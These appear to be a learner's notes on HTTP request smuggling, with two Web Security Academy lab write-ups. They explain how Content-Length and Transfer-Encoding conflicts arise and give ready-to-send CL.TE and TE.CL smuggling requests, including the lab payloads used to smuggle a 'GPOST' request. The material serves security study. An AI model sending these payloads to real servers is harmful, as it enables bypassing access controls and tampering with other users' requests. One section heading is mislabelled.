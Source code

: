 ## HTTP Request Smuggling

### Overview
- Interfering with the way a site processes sequences of HTTP requests received from one or more users
- Usually allows bypassing security controls, gaining of unauthorized access, compromising other users 
- Primarily associated with HTTP/1 requests; however, some HTTP/2 vulnerable depending on backend architecture
- Today's web apps usually employ chains of HTTP servers between users and the ultimate logic: users send requests to the frontend server (sometimes called a load balancer or reverse proxy) and this server forwards the request(s) to one or more backend servers. 
- Typically, when the frontend server forwards HTTP requests to the backend server, it sends several requests over the same connection for efficiency and performance. HTTP requests are sent one after another, and the receiving server has to determine where one request ends and the next one begins: 

![User Requests from Frontend to Backend](Photos/forwarding-http-requests-to-back-end-server.svg)

- An attacker can try and trick the backend server. For example, an attacker might send an ambiguous request that gets interpreted differently by the frontend and the backend systems. In this example, the attacker causes part of their frontend request to be interpreted by the backend server as the start of the next request. It is effectively prepended to the next request and can interfere with the way the application processes that request:

![alt text](Photos/smuggling-http-request-to-back-end-server.svg)

### How Does This Happen?

- HTTP/1 specification provides two different ways to specify where a request ends:
    1. `Content-Length` header: Pretty straightforward. Specifies the length of the message body in bytes. 
    2. `Transfer-Encoding` header: Specify that the message body uses chunked encoding. Means that the message body contains one or more chunks of data. Each chunk consists of the chunk size in bytes (expressed in a hexadecimal), followed by a newline, followed by the chunk contents. Terminated with a chunk of size zero. For example, hexadecimal of B is 11 (binary: 1011), so b for q=smuggling.

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```
- Burp Suite auto unpacks chunked encoding to make messages easier to view and edit. Browsers do not normally use chunked encoding in requests, and it is normally seen only in server responses. 
- Since the HTTP/1 specification provides two different methods for specifying the length of HTTP messages, it is possible for a single message to use both methods at once, such that they conflict with each other. The specification attempts to prevent this problem by stating if both the `Content-Length` and `Tranfer-Encoding` headers are present, then the `Content-Length` header should be ignored. This may be sufficient to avoid ambiguity when only a single server is in play, but not when two or more servers are chained together. In this situation, problems can arise for two reasons:
    1. Some servers do not support the `Transfer-Encoding` header in requests
    2. Some servers that do support the `Transfer-Encoding` header can be induced not to process it if the header is obfuscated in some way
- If the frontend and backend servers behave differently in relation to the (possibly obfuscated) `Transfer-Encoding` header, then they might disagree about the boundaries betwen successive requests, leading to request smuggling vulnerabilities. 
- HTTP/2 end-to-end is inherently immune to request smuggling as it introduces a single, robust mechanism for specifying the length of a request. There is no way for an attacker to introduce the required ambiguity. HOWEVER, many websites have HTTP/2 frontend, but deploy backend infrastructure that only supports HTTP/1. This means frontend has to translate the requests it receives to HTTP/1. Known as HTTP downgrading - more on this in more advanced request smuggling. 

### How to Perform Request Smuggling
- Classic request smuggling attacks involve placing both the `Content-Length` header and the `Transfer-Encoding` header into a single HTTP/1 request and manipulating these so that the frontend and the backend servers process the request differently. This is done in different ways depending on the behavior of the two servers:
    - **CL.TE**: The frontend server uses the `Content-Length` header and the backend server uses the `Transfer-Encoding` header. 
    - **TE.CL**: The frontend server uses the `Transfer-Encoding` header and the backend server uses the `Content-Length` header.
    - **TE.TE**: The frontend and the backend servers both support the `Transfer-Encoding` header, but one of the servers can be induced not the process it by obfuscating the header in some way. 
- These are only possible, as mentioned, using HTTP/1 requests. Browsers and other clients, including Burp, use HTTP/2 by default to communicate with servers that explicitly advertise support for it during the TLS handshake. When testing sites with HTTP/2 support, you will need to manually swith protocols in Burp Repeater. You can do this in the `Request attributes` section of the Inspector panel. 

### CL.TE Vulnerabilities
- The frontend server uses the `Content-Length` header and the backend server uses the `Transfer-Encoding` header. Perform a simple HTTP request smuggling attack as follows in the code block below. The frontend processes the `Content-Length` header and determines the request body is 13 bytres long, up to the end of `SMUGGLED`. Request is forwarded to backend server. 
- Backend server processes the `Transfer-Encoding` header and treats the message body as using chunked encoding. It processes the first chunk, stated to be zero length, and so is treated as terminating the request. The following bytes, SMUGGLED, are left unprocessed, and the backend server treats them as the start of the next request in the sequence. 

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

#### Lab: HTTP Request Smuggling, Basic CL.TE Vulnerability
- Involves a frontend and backend, and the frontend does not support chunked encoding. The frontend server rejects requests that aren't using GET or POST method. To solve, smuggle a request to the back-end server so that the next request processed by the backend server appears to use the method `GPOST`. 
- So in this case, the frontend server uses the `Content-Length` header and the backend server uses `Transfer-Encoding`. We are saying the content does not include that extra stuff after the 0 ... 

```
POST /post/comment HTTP/1.1
Host: 0a6a0085043d4777a0b4b6c700920024.web-security-academy.net
Cookie: session=d4CNLJNIRZeA47ItYi9ktIm1ovuiqVdb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6a0085043d4777a0b4b6c700920024.web-security-academy.net/post?postId=9
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Pwnfox-Color: yellow
Priority: u=0, i
Content-Length: 1
Transfer-Encoding: chunked

0

G
```

![alt text](Photos/image.png)

### CL.TE Vulnerabilities
- So, here, the frontend is using the `Transfer-Encoding` header and the backend server is using the `Content-Length` header. Perform simple HTTP request smugging with the following: 

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

#### Lab: HTTP Request Smugging, Basic TE.CL Vulnerability
- I had trouble making this work manually through Burp Repeater; I solved the lab using their Smuggler extension. 

```
POST / HTTP/2
Host: 0aef000d03ef0a09810d4d8100cb00e8.web-security-academy.net
Test-Header: 18
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Transfer-Encoding: chunked
Connection: keep-alive

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```